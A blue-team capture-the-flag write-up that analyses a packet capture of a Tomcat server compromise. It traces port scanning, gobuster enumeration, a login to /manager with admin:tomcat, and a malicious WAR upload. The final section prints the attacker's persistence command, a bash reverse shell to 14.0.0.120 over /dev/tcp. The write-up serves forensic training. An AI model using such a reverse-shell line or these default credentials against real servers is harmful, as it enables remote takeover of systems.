# Tomcat Takeover Blue Team Lab

[Tomcat Takeover | Blue team challenge.](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)

---

## 1. Identify the source IP address responsible for initiating the suspicious requests on our server.

- Reviewing Conversations from the Statistics tab in Wireshark shows IP `14.0.0.120` generating a lot of traffic.  
  Data is transmitted from IP `10.0.0.112` which appears to be our web server.  
  

- Adding a column for destination port, sorting and filtering TCP packets shows `14.0.0.120` sending many requests with different destination ports, indicating port scanning.  
  

- **Answer:** `14.0.0.120`

---

## 2. From which city did the attacker’s activities originate?

- Using IP geolocation services like [IP Location Lookup](https://www.iplocation.net/ip-lookup).  
- **Answer:** Guangzhou  
  

---

## 3. Which port provides access to the web server admin panel?

- Filtering HTTP traffic, reviewing server response reveals the server name `Apache-Coyote` (Apache Tomcat).  
    
  

- Default admin panel port for Tomcat is **8080**.  
  

- **Answer:** `8080`

---

## 4. Which tools did the attacker use for enumerating directories and files on the web server?

- Adding user-agent column, search reveals the tool used for enumeration.  
  

- **Answer:** `gobuster`

---

## 5. Which admin panel directory was uncovered by the attacker?

- Searching HTTP packets for Authentication fields points to the directory requiring credentials.  
  

- **Answer:** `/manager`

---

## 6. What username and password did the attacker successfully use for authorization?

- Open any packet filtered with Authentication field to find credentials.  
  

- **Answer:** `admin:tomcat`

---

## 7. What is the name of the malicious file uploaded by the attacker?

- Searching HTTP POST packets reveals only one relevant packet.  
  

- **Answer:** `JXQOZY.war`  
  

---

## 8. What command was scheduled to maintain persistence on the compromised server?

- Following the TCP stream of the POST packet shows the command.  
  

- **Answer:**  
  ```bash
  /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
  ```
  